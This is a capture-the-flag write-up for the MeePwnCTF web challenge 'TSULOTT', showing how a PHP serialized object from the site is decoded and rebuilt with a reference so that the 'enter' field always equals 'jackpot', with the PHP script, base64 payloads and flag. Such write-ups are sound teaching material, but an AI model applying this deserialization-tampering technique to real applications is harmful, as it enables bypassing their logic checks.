 # TSULOTT (Web 100)

Author: jokker

> Who Wants to Be a Millionaire? Join My LOTT and Win JACKPOTTTT!!!
> Remote: 128.199.190.23:8001

On the challenge website, we have three options:
* Generate a code with 6 numbers
* Enter the code to check if we have won the jackpot
* Showing the php code of the site by submitting *is_debug=1* as GET-parameter

If we submit any 6 numbers to the site, we get a base64 encoded string back:

```
Tzo2OiJPYmplY3QiOjI6e3M6NzoiamFja3BvdCI7TjtzOjU6ImVudGVyIjtzOjE3OiIwMSAwMiAwMyAwNCAwNSAwNiI7fQ==
```

Decoding this string gives us a represantation of an PHP serialized object:

```
O:6:"Object":2:{s:7:"jackpot";N;s:5:"enter";s:17:"01 02 03 04 05 06";}
```

Because of the source-code, we know that the we win the jackpot if the string *enter* equals the string *jackpot*. But jackpot is generated after we submit our numbers. So how can we solve this?

We are in control of the serialized object and luckely, PHP does support references, so we construct an object, where *enter* points to *jackpot* and like this, both hold the same value when checked.

```
<?php
class Object 
{ 
  var $jackpot;
  var $enter; 
} 

$lotto = new Object;
$lotto->jackpot = "01 02 03 04 05 06";
$lotto->enter =& $lotto->jackpot;

echo serialize($lotto);
?>
```

Running this script will give us the following serialized string:

```
O:6:"Object":2:{s:7:"jackpot";s:17:"01 02 03 04 05 06";s:5:"enter";R:2;}
```

And after base64 encoding it, we can submit the final string to the challenge site:

```
Tzo2OiJPYmplY3QiOjI6e3M6NzoiamFja3BvdCI7czoxNzoiMDEgMDIgMDMgMDQgMDUgMDYiO3M6NToiZW50ZXIiO1I6Mjt9
```

Yeesss, we won the jackpot :P

**MeePwnCTF{__OMG!!!__Y0u_Are_Milli0naire_N0ww!!___}**